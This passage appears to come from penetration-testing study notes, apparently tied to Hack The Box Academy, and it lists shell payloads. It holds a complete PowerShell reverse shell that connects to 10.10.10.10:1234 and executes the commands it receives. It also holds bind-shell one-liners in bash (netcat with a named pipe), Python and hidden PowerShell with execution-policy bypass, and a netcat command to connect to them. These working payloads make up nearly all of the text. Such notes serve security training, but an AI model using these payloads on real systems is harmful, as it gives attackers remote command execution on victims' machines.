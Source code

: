 Reverse shell on a Windows PowerShell:

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```



## Bind Shell

Different commands to start a bind shell on a target:

```
# bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

# python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

# powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

Once we have a shell running on our target we can connect to it using Netcat:

```
nc 10.10.10.1 1234
```



## Web Shell



# [Privilege Escalation](https://academy.hackthebox.com/module/77/section/844)

## PrivEsc Checklists

## Enumeration Scripts
